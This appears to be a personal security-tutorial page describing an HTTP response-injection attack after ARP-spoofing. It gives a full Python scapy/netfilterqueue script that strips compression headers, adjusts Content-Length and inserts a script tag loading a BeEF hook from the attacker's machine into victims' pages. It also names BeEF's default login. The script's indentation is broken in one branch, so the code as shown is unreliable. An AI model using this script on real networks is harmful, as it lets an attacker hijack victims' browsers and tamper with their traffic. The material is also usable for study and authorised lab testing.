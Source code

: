 ```yaml
---
title: "HTTP code injection & BeEF"
date: 2019-01-09
# geekdocFlatSection: false
# geekdocToc: 6
# geekdocHidden: false
---
```


After we become the [mitm][arp_cache_poisoning] we can modify HTTP responses by changing the Raw data on the fly.  
[arp_cache_poisoning]: https://jwever.bitbucket.io/lan/exploitation/mitm/arp_cache_poisoning/

Since most clients will request [content encoding][http_compression] (by adding a "Accept-Encoding" header), the HTTP response data (scapy.Raw layer) will look like gibberish.  
This is is because the data is GZIPPED most of the time. To get around this we can simply delete this header from the HTTP request!  
[http_compression]: https://en.wikipedia.org/wiki/HTTP_compression

We also need to make sure we change the size of the "Content-Length" value to match with our injected code.   
Otherwise the client browser will not accept the server response.  

In the below example code we then use BeEF on our attacker machine. BeEF is short for The Browser Exploitation Framework. It is a penetration testing tool that focuses on the web browser. The key to success with BeEF is to "hook" a browser. This basically means that we need the victim to visit a vulnerable web app (or as shown in the below code example just by browsing to a HTTP website that has a particular string in the body text). This injected code in the "hooked" browser then responds to commands from the BeEF server. From there, we can do a number of malicious things on the victim's computer.  

On Parrot OS i first opened BeEF Framework and then logged in with the default credentials for BeEF: beef/beef at:
http://localhost:3000/ui/authentication

![beef](/img/beef.jpg)

In the below example we are modifying HTTP responses and injecting the BeEF Hook javascript code into it. Evil stuff :-P  

I successfully tested all this on a Windows 10 victim PC with Chrome browser by visiting a HTML site that had a particular string in the body and replacing this with injected code.

I then verified the browser was hooked in BeEF on my attacker machine. Then i succesfully send a JS alert via BeEF (commands > browser > hooked domain > create alert dialog). 

```python

# !/usr/bin/env python
import netfilterqueue
import scapy.all as scapy
import re

ack_list = []


def set_load(packet, load):
    packet[scapy.Raw].load = load
    del packet[scapy.IP].len
    del packet[scapy.IP].chksum
    del packet[scapy.TCP].chksum

    return packet


def process_packet(packet):
    scapy_packet = scapy.IP(packet.get_payload())
    if scapy_packet.haslayer(scapy.Raw):
        load = scapy_packet[scapy.Raw].load
        if scapy_packet[scapy.TCP].dport == 80:
            print("[+] Request")
            load = re.sub("Accept-Encoding:.*?\\r\\n", "", scapy_packet[scapy.Raw].load)

        elif scapy_packet[scapy.TCP].sport == 80:
          print("[+] Response")
                print(scapy_packet.show())
                injection_code = '<script src="http://192.168.178.18:3000/hook.js"></script>'
                load = scapy_packet[scapy.Raw].load.replace('<meta property="og:title" content="Home"/>', injection_code)
                content_length_search = re.search("(?:Content-Length:\s)(\d*)", load)
            if content_length_search and "text/html" in load:
                content_length = content_length_search.group(1)
                new_content_length = int(content_length) + len(injection_code)
                load = load.replace(content_length, str(new_content_length))

        if load != scapy_packet[scapy.Raw].load:
            new_packet = set_load(scapy_packet, load)
            packet.set_payload(str(new_packet))
    packet.accept()


queue = netfilterqueue.NetfilterQueue()
queue.bind(0, process_packet)
queue.run()
```
